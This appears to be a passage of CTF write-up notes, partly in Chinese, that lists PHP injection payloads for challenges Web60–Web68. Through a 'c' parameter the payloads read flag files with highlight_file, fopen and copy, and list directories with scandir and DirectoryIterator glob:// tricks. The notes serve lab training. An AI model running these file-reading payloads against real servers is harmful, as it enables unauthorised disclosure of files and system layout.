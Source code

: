 ## Web60
	copy("flag.php","flag.txt");
	rename("flag.php","flag.txt");
	c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}
	c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);print_r($line);}

## Web61

	c=highlight_file('flag.php');

## Web62

	c=highlight_file('flag.php');

## Web63

	c=highlight_file('flag.php');

## Web64

	c=highlight_file('flag.php');

## Web65

	c=highlight_file('flag.php');

## Web66

	c=highlight_file('/flag.txt');

## Web67

	c=highlight_file('/flag.txt');

## Web68
读目录

    var_dump(scandir('/'));
	c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

第二个payload解释一下：
外部调用DirectoryIterator时，传入一个目录路径字符串，实例化DirectoryIterator类。
用foreach或者while遍历目录：

	<?php
	//遍历目录下的所有文件
	$dir = new DirectoryIterator(dirname(__FILE__));
	//1、foreach直接循环
	foreach ($dir as $file){
    	if($file->isFile()){
        	echo $file->getFilename()."<br />";
    	}
	}
